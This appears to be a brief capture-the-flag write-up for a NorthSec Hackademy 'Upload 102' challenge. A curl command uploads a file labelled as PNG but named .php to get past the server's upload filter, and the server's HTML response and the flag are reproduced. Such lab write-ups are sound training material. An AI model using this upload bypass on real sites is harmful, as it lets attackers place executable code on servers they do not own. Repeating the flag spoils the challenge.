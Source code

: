 # Upload 102

We send the file as if it was a PNG file:   
``curl -F "file=@upload2.png;filename=upload2.php" chal8.hackademy.ctf/upload2.php``

<!DOCTYPE html>
<html>
    <head>
        <title>NorthSec Hackademy</title>
        <script type="text/javascript" src="https://code.jquery.com/jquery-3.5.1.js"></script>
        <script type="text/javascript" src="js/bootstrap.bundle.min.js"></script>
        <link rel="stylesheet" type="text/css" href="css/bootstrap.min.css">
    </head>
    <body>
        <div class="container">
            <!-- HINT: Your file will not be uploaded for real. If you successfully upload a PHP file that would be interpreted by the web server, you will receive the flag. -->
            <form action="" method="POST" enctype="multipart/form-data">
                <h1>Send us your file.</h1>
                <p>Only PNG, JPG and JPEG are allowed.</p>
                <input type="file" name="file">
                <input class="btn btn-primary" type="submit" name="submit" value="Upload">
                <div class="alert alert-success">You have successfully uploaded your file.<br>FLAG-hJFasjrdoTPMNXUW7floA9nib8g5VwH0</div>            </form>
        </div>
    </body>
</html>%   

``FLAG-hJFasjrdoTPMNXUW7floA9nib8g5VwH0``
